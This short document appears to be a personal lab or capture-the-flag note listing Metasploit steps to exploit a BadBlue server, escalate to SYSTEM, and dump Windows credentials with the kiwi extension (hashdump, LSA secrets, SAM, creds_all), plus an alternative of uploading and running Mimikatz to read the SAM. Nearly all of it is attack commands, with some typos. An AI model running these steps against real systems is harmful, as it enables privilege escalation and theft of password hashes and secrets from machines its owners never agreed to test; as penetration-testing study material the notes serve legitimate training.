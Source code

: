 search badblue 
- exploit
- migrate to running service explorer.exe | prgrep explorer or lsaas
- getsystem
- load kiwi
- getsystem
- hashdump
- lsa_dump_secrets
- lsa_dump_sam
- creds_all


another way using Mimikatz
cd C\\\\:
mkdir Temp
cd Temp
upload ../../../../mimikatz.exe
shell
.\mimikatz.exe
lsa::sam